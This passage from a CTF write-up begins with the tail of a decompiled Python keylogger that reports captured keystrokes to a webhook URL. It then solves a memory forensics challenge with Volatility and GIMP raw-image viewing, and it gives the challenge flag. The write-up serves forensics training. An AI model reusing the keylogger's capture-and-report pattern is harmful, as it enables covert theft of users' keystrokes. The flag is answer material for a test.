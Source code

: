 ```
        self.log = ''
        Timer(self.interval, self._report).start()

    
    def run(self):
Unsupported opcode: BEFORE_WITH
        self._report()
    # WARNING: Decompyle incomplete


if __name__ == '__main__':
    Keylogger(WEBHOOK_URL, INTERVAL).run()
    return None
```

## Pixelated 🧃 [Forensics]
Question: awk ? grep ? sed ? always forget the order on those, well anyway have fun!

Flag: `L3AK{p1x3l_p3rfect!}`

We are given another memory dump to investigate. Analyzing the process tree, the MS paint process seems to be oddly running alone near the end of the list. However, after dumping the process, I had no idea what to do next. Thankfully, the author gave a small nudge to me mentioning that we actually had a discussion about this kind of challenge in another CTF previously. I was baffled and straight up remembered about the method of visualizing raw data. Here is a good [reference](https://w00tsec.blogspot.com/2015/02/extracting-raw-pictures-from-memory.html) about this whole method.

```
└─$ python3 vol.py -f ~/Desktop/sharedfolder/L3akCTF/Pixelated/memory.raw windows.pstree                                           
Volatility 3 Framework 2.7.0
Progress:  100.00               PDB scanning finished                        
PID     PPID    ImageFileName   Offset(V)       Threads Handles SessionId       Wow64   CreateTime      ExitTime        Audit   Cmd     Path

---SNIP---

*** 5580        4280    mspaint.exe     0xdb0861a2d080  5       -       1       False   2024-05-01 11:41:39.000000      N/A     \Device\HarddiskVolume1\Windows\System32\mspaint.exe    "C:\Windows\system32\mspaint.exe"        C:\Windows\system32\mspaint.exe
*** 6644        4280    VBoxTray.exe    0xdb08615b1080  11      -       1       False   2024-05-01 08:50:27.000000      N/A     \Device\HarddiskVolume1\Windows\System32\VBoxTray.exe   "C:\Windows\System32\VBoxTray.exe"       C:\Windows\System32\VBoxTray.exe
* 868   652     fontdrvhost.ex  0xdb086003b140  5       -       1       False   2024-05-01 08:50:09.000000      N/A     \Device\HarddiskVolume1\Windows\System32\fontdrvhost.exe        "fontdrvhost.exe"        C:\Windows\system32\fontdrvhost.exe
* 548   652     dwm.exe 0xdb086020c080  21      -       1       False   2024-05-01 08:50:09.000000      N/A     \Device\HarddiskVolume1\Windows\System32\dwm.exe        "dwm.exe"       C:\Windows\system32\dwm.exe
```

By dumping the process and renaming the extension from `.dmp` to `.data`, the process can actually be visualized on GIMP as long you have the right width and height (yes its basically trial and error). After several minutes, I managed to get a hit on a part of the MS paint process.
